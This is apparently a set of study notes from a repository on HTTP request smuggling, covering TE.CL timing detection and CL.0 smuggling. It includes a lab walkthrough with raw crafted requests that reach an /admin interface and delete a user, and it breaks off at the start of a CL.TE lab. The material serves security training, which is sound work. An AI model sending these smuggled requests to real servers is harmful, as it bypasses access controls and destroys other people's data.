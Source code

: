 ## Finding TE.CL vulnerabilities using timing techniques

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X

Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the X. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

## CL.0 request smuggling
In some instances, servers can be persuaded to ignore the Content-Length header, meaning they assume that each request finishes at the end of the headers. This is effectively the same as treating the Content-Length as 0.

If the back-end server exhibits this behavior, but the front-end still uses the Content-Length header to determine where the request ends, you can potentially exploit this discrepancy for HTTP request smuggling. We've decided to call this a "CL.0" vulnerability.

### LAB: CL.0 request smuggling
First group this request with a normal request together:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /404abcxyz HTTP/1.1
    Foo: 

Send group (single connection) and observe that the second request got a `404 Not Found`. This indicates that the server ignores the CL header at `/resources/images/blog.svg` endpoint. Now change the smuggling request and send this group request to access the admin interface:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /admin HTTP/1.1
    Foo: 

Notice the `/admin/delete?username=carlos` endpoint to delete user Carlos. Use it in the smuggling request and send this group request to delete him.

### LAB: HTTP request smuggling, basic CL.TE vulnerability
Send this request:
